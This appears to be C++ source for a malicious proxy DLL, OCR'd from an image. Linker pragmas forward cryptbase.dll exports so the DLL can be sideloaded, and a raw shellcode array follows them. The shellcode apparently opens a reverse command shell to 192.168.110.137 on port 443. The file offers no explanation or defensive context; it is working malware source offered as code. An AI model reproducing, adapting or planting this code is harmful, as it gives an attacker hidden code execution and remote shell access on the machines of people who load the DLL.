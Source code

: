 #pragma comment(linker,"/export:SystemFunction001=C:\\Windows\\System32\\cryptbase.SystemFunction001,@1")
#pragma comment(linker,"/export:SystemFunction002=C:\\Windows\\System32\\cryptbase.SystemFunction002,@2")
#pragma comment(linker,"/export:SystemFunction003=C:\\Windows\\System32\\cryptbase.SystemFunction003,@3")
#pragma comment(linker,"/export:SystemFunction004=C:\\Windows\\System32\\cryptbase.SystemFunction004,@4")
#pragma comment(linker,"/export:SystemFunction005=C:\\Windows\\System32\\cryptbase.SystemFunction005,@5")
#pragma comment(linker,"/export:SystemFunction028=C:\\Windows\\System32\\cryptbase.SystemFunction028,@6")
#pragma comment(linker,"/export:SystemFunction029=C:\\Windows\\System32\\cryptbase.SystemFunction029,@7")
#pragma comment(linker,"/export:SystemFunction034=C:\\Windows\\System32\\cryptbase.SystemFunction034,@8")
#pragma comment(linker,"/export:SystemFunction036=C:\\Windows\\System32\\cryptbase.SystemFunction036,@9")
#pragma comment(linker,"/export:SystemFunction040=C:\\Windows\\System32\\cryptbase.SystemFunction040,@10")
#pragma comment(linker,"/export:SystemFunction041=C:\\Windows\\System32\\cryptbase.SystemFunction041,@11")

#include <windows.h>
#include <iostream>

unsigned char buf[] =
"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
"\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
"\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
"\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
"\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
"\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
"\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
"\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
"\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
"\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
"\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
"\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
"\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
"\x12\xe9\x57\xff\xff\xff\x5d\x49\xbe\x77\x73\x32\x5f\x33"
"\x32\x00\x00\x41\x56\x49\x89\xe6\x48\x81\xec\xa0\x01\x00"
"\x00\x49\x89\xe5\x49\xbc\x02\x00\x01\xbb\xc0\xa8\x6e\x89"
"\x41\x54\x49\x89\xe4\x4c\x89\xf1\x41\xba\x4c\x77\x26\x07"
"\xff\xd5\x4c\x89\xea\x68\x01\x01\x00\x00\x59\x41\xba\x29"
"\x80\x6b\x00\xff\xd5\x50\x50\x4d\x31\xc9\x4d\x31\xc0\x48"
"\xff\xc0\x48\x89\xc2\x48\xff\xc0\x48\x89\xc1\x41\xba\xea"
"\x0f\xdf\xe0\xff\xd5\x48\x89\xc7\x6a\x10\x41\x58\x4c\x89"
"\xe2\x48\x89\xf9\x41\xba\x99\xa5\x74\x61\xff\xd5\x48\x81"
"\xc4\x40\x02\x00\x00\x49\xb8\x63\x6d\x64\x00\x00\x00\x00"
"\x00\x41\x50\x41\x50\x48\x89\xe2\x57\x57\x57\x4d\x31\xc0"
"\x6a\x0d\x59\x41\x50\xe2\xfc\x66\xc7\x44\x24\x54\x01\x01"
"\x48\x8d\x44\x24\x18\xc6\x00\x68\x48\x89\xe6\x56\x50\x41"
"\x50\x41\x50\x41\x50\x49\xff\xc0\x41\x50\x49\xff\xc8\x4d"
"\x89\xc1\x4c\x89\xc1\x41\xba\x79\xcc\x3f\x86\xff\xd5\x48"
"\x31\xd2\x48\xff\xca\x8b\x0e\x41\xba\x08\x87\x1d\x60\xff"
"\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd\x9d\xff\xd5"
"\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
"\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff\xd5";
